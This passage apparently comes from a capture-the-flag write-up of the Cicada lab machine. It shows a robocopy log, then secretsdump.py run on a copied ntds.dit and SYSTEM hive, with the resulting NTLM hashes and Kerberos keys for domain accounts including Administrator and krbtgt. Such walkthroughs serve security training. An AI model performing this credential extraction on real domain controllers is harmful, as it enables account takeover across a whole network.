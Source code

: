 ```
...[snip]...
 99.6%
100%
100%
------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   16.00 m   16.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00

   Speed :           155,344,592 Bytes/sec.
   Speed :             8,888.889 MegaBytes/min.
   Ended : Friday, September 27, 2024 1:07:57 AM

```

I’ll download this file over WinRM.

### Extract Hashes

`secretsdump.py` can extract these hashes as well:

```

oxdf@hacky$ secretsdump.py -ntds ntds.dit -system system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: f954f575c626d6afe06c2b80cc2185e6
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CICADA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3779000802a4bb402736bee52963f8ef:::
cicada.htb\john.smoulder:1104:aad3b435b51404eeaad3b435b51404ee:0d33a055d07e231ce088a91975f28dc4:::
cicada.htb\sarah.dantelia:1105:aad3b435b51404eeaad3b435b51404ee:d1c88b5c2ecc0e2679000c5c73baea20:::
cicada.htb\michael.wrightson:1106:aad3b435b51404eeaad3b435b51404ee:b222964c9f247e6b225ce9e7c4276776:::
cicada.htb\david.orelious:1108:aad3b435b51404eeaad3b435b51404ee:ef0bcbf3577b729dcfa6fbe1731d5a43:::
cicada.htb\emily.oscars:1601:aad3b435b51404eeaad3b435b51404ee:559048ab2d168a4edf8e033d43165ee5:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:e47fd7646fa8cf1836a79166f5775405834e2c060322d229bc93f26fb67d2be5
Administrator:aes128-cts-hmac-sha1-96:f51b243b116894bea389709127df1652
Administrator:des-cbc-md5:c8838c9b10c43b23
CICADA-DC$:aes256-cts-hmac-sha1-96:e9752f2c7752bd92142588e63dc0383499f49b04a46de37845e33d40de1db7ed
CICADA-DC$:aes128-cts-hmac-sha1-96:7fc8e7f2daa14d0ccdf070de9cfc49c5
CICADA-DC$:des-cbc-md5:b0f7cdec040d5b6d
krbtgt:aes256-cts-hmac-sha1-96:357f15dd4d315af47ac63658c444526ec0186f066ad9efb46906a7308b7c60c8
krbtgt:aes128-cts-hmac-sha1-96:39cbc0f220550c51fb89046ac652849e
krbtgt:des-cbc-md5:73b6c419b3b9bf7c
cicada.htb\john.smoulder:aes256-cts-hmac-sha1-96:57ae6faf294b7e6fbd0ce5121ac413d529ae5355535e20739a19b6fd2a204128
cicada.htb\john.smoulder:aes128-cts-hmac-sha1-96:8c0add65bd3c9ad2d1f458a719cfda81
cicada.htb\john.smoulder:des-cbc-md5:f1feaeb594b08575
cicada.htb\sarah.dantelia:aes256-cts-hmac-sha1-96:e25f0b9181f532a85310ba6093f24c1f2f10ee857a97fe18d716ec713fc47060
cicada.htb\sarah.dantelia:aes128-cts-hmac-sha1-96:2ac9a92bca49147a0530e5ce84ceee7d
cicada.htb\sarah.dantelia:des-cbc-md5:0b5b014370fdab67
```